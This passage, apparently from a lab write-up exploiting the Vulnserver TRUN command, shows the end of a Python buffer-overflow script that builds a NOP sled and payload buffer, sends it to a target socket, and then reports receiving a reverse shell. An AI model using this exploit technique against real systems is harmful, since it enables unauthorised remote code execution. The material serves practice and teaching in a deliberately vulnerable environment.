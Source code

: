 ```python
buf += NOP * 32
buf += payload
buf += b"D" * (size - offset - 4 - 32 - len(payload))
buf += line_ending

s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, target_port))

# receive banner
banner = s.recv(1024)
print(banner)

# send evil buffer
print(f"Sending evil buffer with {len(buf)} bytes and payload length {size}...")
s.send(buf)

# receive response
a = s.recv(1024)
print(a)

s.close()
print("Done!")
```

Run the exploit and you should receive a shell:

![Reverse shell received](/assets/img/vulnserver_trun_66_exploit.png)
